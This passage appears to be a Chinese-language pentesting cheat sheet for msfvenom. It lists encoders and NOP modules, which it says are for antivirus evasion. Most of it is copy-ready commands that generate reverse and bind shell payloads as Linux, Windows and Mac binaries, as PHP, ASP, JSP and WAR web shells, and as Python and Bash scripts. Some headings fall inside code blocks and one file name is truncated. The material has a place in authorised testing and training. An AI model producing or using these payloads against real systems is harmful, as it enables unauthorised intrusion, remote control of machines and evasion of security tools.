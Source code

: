 ```bash
msfvenom --help-formats
```
查看支持的编码方式：(为了达到免杀的效果)
```bash
msfvenom -l encoders
```
查看支持的空字段模块：(为了达到免杀的效果)
```bash
msfvenom -l nops
```

#### 基础payload
命令格式
```bash
msfvenom -p <payload> <payload options> -f <format> -o <path>
```
Linux
```bash
反向连接：
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
正向连接：
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<Target IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
Windows
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
Mac
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
Web Payloads
```
PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.wa
Scripting Payloads
```
Python
```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
Bash
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```